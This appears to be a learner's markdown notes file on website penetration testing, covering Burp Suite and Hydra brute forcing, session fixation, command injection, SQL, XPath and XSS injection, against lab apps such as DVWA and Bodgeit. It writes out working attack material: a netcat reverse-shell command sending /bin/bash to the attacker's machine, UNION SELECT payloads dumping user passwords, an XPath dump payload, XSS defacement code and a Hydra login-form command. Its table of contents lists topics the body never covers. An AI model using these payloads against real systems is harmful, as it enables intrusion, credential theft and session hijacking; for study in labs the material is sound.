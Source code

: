 # Website penetration testing

## Tables des matière
 - [ARP protocol](#ARP-protocol)
 - [Manual ARP spoofing](#Manual-ARP-spoofing)
 - [HTTP trafic sniffing](#HTTP-trafic-sniffing)
 - [DNS spoofing](#DNS-spoofing)
 - [HTTPS credentials sniffing](#HTTPS-credentials-sniffing)
 - [Hooking browsers with BEEF](#Hooking-browsers-with-BEEF)
 - [Some stuff you can do with mitmf](#Some-stuff-you-can-do-with-mitmf)
 - [Cloning any webpage](#Cloning-any-webpage)
 - [Ettercap](#Ettercap)
Whatweb :
	Web scanner

Dirb : 
	Web Content Scanner

Burp Suite :
	Brute force a field --> In your POST method packet --> Send to intruder --> Go to intruder 
	--> select the right field in the http request in the Position tab 
	--> select "Sniper" attack type (for brute force one field)
	--> In Payload options, load a file with some words in order to test each of them.
	--> Click on "start attack"

	Brute force somes fields --> In your POST method packet --> Send to intruder --> Go to intruder 
	--> select rights fields in the http request in the Position tab 
	--> select "Clsuter bomb" attack type (for brute force some fields)
	--> In Payload options, select your "payload set" and load a list which match with the right payload. 
	Do that for every payload that you selected.
	--> You can add an option in order see if a revelant string appears in the html request.
	Go to options and add the string in "Grep - Match" 
	--> Click on "start attack"
	
Hydra : 
	Brute forcer faster than burpsuite
	command : hydra <IP_address> http-form-post "<path>:<username_name_field> = ^USER^&<password_name_field> = ^PASS^&<submit_name_field> = submit:<field that reconize where is wrong input> -L <path to user list> -P <path to pass list>

Session fixation :
	
	If you send a mail with an url, set another parameter that is "SID" with a number you want. When the victim click on the link and for example, login into a website,
	you can be able to request the website with the SID that you put into the fake url and enter into the website with the session ID of the victim who already login with his
	username and password.

Injection attack :

	Simple command injection :

		Some servers are vulnerable to command injection. You can execute multiple commands separate by ";".
		You can directly connect this vulnerable website to your machine in order to execute command throught your terminal with netcat tool.
		command on your machine : nc -l -v -p <port_you_want_listening_on>
		command : nc.traditional -e <path_to_your_bash ?/bin/bash?> <ip_adress_of_your_machine> <port_you_listening_on> 

	Blind command injection :
	
		In order to see if the website is vulnerable to command injection, ping 2 machines. 
		See in wireshark if the pings works.

	SQL Basics : 
		
		Keyword to request te database : CREATE; SELECT; UPDATE; INSERT; DELETE; DROP; 
	
	SQL Injection :
			
		Most Common check for SQL injection is : '
		You can use # (comment) to skip the last '. --> 2' SELECT 1,2 #'
		In order to see how many columns are in the database, use ORDER BY -->  ORDER BY 1... ORDER BY 2... ORDER BY 3... ORDER BY 4..., You can select all of these by tiping 
		UNION SELECT 1,2,3...
		Database name : database(), user link to the database : user()

		Common table in databases : 
	
			information_schema.schemata --> schema_name (database name)
			information_schema.tables --> table_name ;;;	You must specifie the condition : WHERE table_schema = '<database_name>
			information_schema.columns --> column_name, column_type ;;;	You must specifie the condition : WHERE table_name = '<table_name> 
			
		Uses the function Concat() to gather some informations in a request --> 2' UNION SELECT CONCAT(user_id, '-',first_name, ' ', last_name), CONCAT(user, '-', password) FROM dvwa.users #'

	SQL Blind Injection :

		Brute force to find the name of the database... --> Intruder burpsuite.
		<->Ask how to do that.

	XML Injection :

		Some XML vulnerability can be discover by the symbol ' like SQL Injection, if there is no input, you can modify the http sending packet and add a ' after the option you selected
		You can display all the dabase by add --> ')]/*|//*[contains('1','1
		
		Automate XML Injection : 
			xcat : apt-get install python3-pip; pip3 install xcat;
			<->How to use xcat

	XSS Reflected :

		You can perform an XSS reflected attack by find this vulnerability in a website and execute some malicious code (or not) and send the link to someone (in order to steal cookies or to hijack a session). 
		You can see if the web site is vulnerable tiping <script><run_a_script_or_a_command></script>. Example : <script>alert('Hello')</script>
		This attack can be perform on a specific target.

	XSS Stored :

		XSS Stored attack means that everyone who visits the web site where you find XSS vulnerability will be a victim of your malicious code. It's stored in the web site himself (For example in a forum)
		You can run a script which send some informations to your server.

	Changing HTML code with XSS :

		<img src=x onerror="document.body.innerHTML='<title>YOU HAVE BEEN HACKED</title>'">
	
	Automate XSS :

		xsser : detect XSS vulnerabilities 
			command : xsser -u '<ip_adress>' -g '<url>?<parameter1> =XSS&<parameter2> =XSS... 
				example :xsser -u 'http://192.168.1.17' -g '/bodgeit/search.jsp?q=XSS' You must specifie "XSS" on each parameter you want to detect XSS vulnerability.

		xsssniper : detect XSS vulnerabilities
			command : python3 xsssniper.py -u <full_url>?<parameter1> =
				example : python3 xsssniper.py -u http://192.168.1.17/bodgeit/search.jsp?q=
					
